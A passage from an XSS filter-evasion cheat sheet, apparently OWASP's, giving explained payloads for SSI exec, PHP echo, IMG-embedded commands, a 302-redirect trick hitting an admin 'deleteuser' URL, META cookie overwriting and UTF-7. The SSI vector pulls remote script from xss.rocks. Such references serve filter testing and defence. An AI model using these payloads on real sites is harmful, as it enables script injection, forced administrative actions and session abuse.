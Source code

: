 ```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

## PHP

Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

## IMG Embedded Commands

This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc.... This is one of the lesser used but more useful XSS vectors:

```html
<img
  src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode"
/>
```

### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

## Cookie Manipulation

Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc...):

```html
<meta http-equiv="Set-Cookie" content="USERID=<SCRIPT>alert('XSS')</SCRIPT>" />
```

## UTF-7 Encoding

If the page that the XSS resides on doesn't provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don't need the charset statement if the user's browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google's custom 404 script.:
